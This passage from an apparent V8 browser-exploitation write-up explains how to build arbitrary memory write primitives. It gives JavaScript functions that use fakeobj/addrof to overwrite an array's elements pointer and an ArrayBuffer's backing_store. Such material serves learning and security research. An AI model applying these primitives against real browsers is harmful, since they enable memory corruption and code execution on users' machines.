 Therefore, we can achieve a initial version of arbitrary address overwrite and try to build a more powerful arbitrary address overwrite primitive.

```
function initial_arb_write(addr, val) {
    // Place a fakeobj right on top of our crafted array with a float array map
    let fake = fakeobj(addrof(arb_rw_arr) - 0x20n);

    // Change the elements pointer using our crafted array to write_addr-0x10
    arb_rw_arr[2] = itof(BigInt(addr) - 0x10n);

    // Write to index 0 as a floating point value
    fake[0] = itof(BigInt(val));
}
```

**A more robust version**

To achieve a more robust version of arbitrary address write primitive, we need to use `ArrayBuffer` and `DataView` object. These two object types provide a more low-level access for raw binary data buffer: `ArrayBuffer` represent an array of bytes (e.g. byte array), and `DataView` provides a way to define how would you interpret these bytes.

Instead of using a Array of float, we use the Array of bytes (i.e. `ArrayBuffer`) and try to overwrite its `backing_store` (which can be seen as the `elements` field of the Array of float).

![](./assets/arbitrary-write-primitive.jpg)

```
function arb_write(addr, val) {
    let buf = new ArrayBuffer(8);
    let dataview = new DataView(buf);
    let buf_addr = addrof(buf);
    let backing_store_addr = buf_addr + 0x20n;
    initial_arb_write(backing_store_addr, addr);
    dataview.setBigUint64(0, BigInt(val), true);
}
```
